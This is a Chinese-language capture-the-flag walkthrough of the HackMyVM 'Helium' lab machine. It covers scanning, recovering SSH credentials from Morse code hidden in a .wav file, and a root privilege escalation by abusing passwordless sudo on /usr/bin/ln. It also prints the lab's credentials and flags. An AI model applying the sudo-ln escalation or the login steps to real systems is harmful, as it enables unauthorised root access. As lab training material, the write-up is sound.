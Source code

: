 # Helium

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-11-22

✔️ MD5 // 6c034ba16620358483d344f0572ad020

☠ Root // 159

💀 User // 163

📝Notes //
Enjoy. Tested on virtualbox.

:::

## 靶机启动

![靶机启动](img/image_20231251-225142.png)

靶机 IP：

```plaintext
192.168.56.110
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.110
Host is up (0.00051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 12f6555fc6fafb1415ae4a2b38d84a30 (RSA)
|   256 b7ac876dc4f9e39ad46ee04fdaaa2220 (ECDSA)
|_  256 fee805af234d3a822a649bf735e4444a (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: RELAX
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:0E:BF:60 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 探测 web 服务

![直接访问](img/image_20231253-225358.png)

查看原始返回

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Vulny]
└──╼ $http get http://192.168.56.110/
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Sat, 23 Dec 2023 14:54:31 GMT
ETag: W/"5fbaba1e-212"
Last-Modified: Sun, 22 Nov 2020 19:21:02 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<title>RELAX</title>
<!doctype html>
<html lang="en">

<!-- Please paul, stop uploading weird .wav files using /upload_sound -->

<head>
<style>
body {
  background-image: url('screen-1.jpg');
  background-repeat: no-repeat;
  background-attachment: fixed;
  background-size: 100% 100%;
}
</style>
    <link href="bootstrap.min.css" rel="stylesheet">
    <meta name="viewport" content="width=device-width, initial-scale=1">
</head>

<body>
<audio src="relax.wav" preload="auto loop" controls></audio>
</body>
```

发现可能存在以下用户

```plaintext
paul
```

尝试目录扫描，并结合已经得到信息，得到以下信息

```plaintext
http://192.168.56.110/upload_sound/
http://192.168.56.110/yay/
http://192.168.56.110/bootstrap.min.css
```

访问 `http://192.168.56.110/bootstrap.min.css` 得到：

```plaintext
/yay/mysecretsound.wav
```

## 分析 wav 文件

将文件下载到本地后，使用 `audacity` 进行查看

![audacity 直接打开](img/image_20231216-111632.png)

发现频谱图存在信息，使用 [Morse Code Adaptive Audio Decoder | Morse Code World](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) 进行查看

![Morse Code World 在线解析](img/image_20231218-111805.png)

发现提取出来两份字符串：

```plaintext
ETAIE4SIET
dancingpassyo
```

结合上文得到的用户名，怀疑是 SSH 的登录凭据

## 凭据利用

利用一下凭据

```plaintext
paul:dancingpassyo
```

登陆成功

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs paul@192.168.56.110
[11:24:13] Welcome to pwncat 🐈!                                                                                      __main__.py:164
Password: *************
[11:24:20] 192.168.56.110:22: normalizing shell path                                                                   manager.py:957
[11:24:21] 192.168.56.110:22: registered new host w/ db                                                                manager.py:957
(local) pwncat$ back
(remote) paul@helium:/home/paul$ whoami
paul
```

## user pwned

```shell
(remote) paul@helium:/home/paul$ cat user.txt
ilovetoberelaxed
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

发现可以无密码执行 `/usr/bin/ln` 程序

## 尝试提权

```shell
(remote) paul@helium:/home/paul$ sudo ln -fs /bin/sh /bin/ln
(remote) paul@helium:/home/paul$ sudo ln
[](remote)[] []root@helium[]:[]/home/paul[]$ whoami
root
```

## root pwned

```shell
[](remote)[] []root@helium[]:[]/root[]$ cat root.txt
ilovetoberoot
```
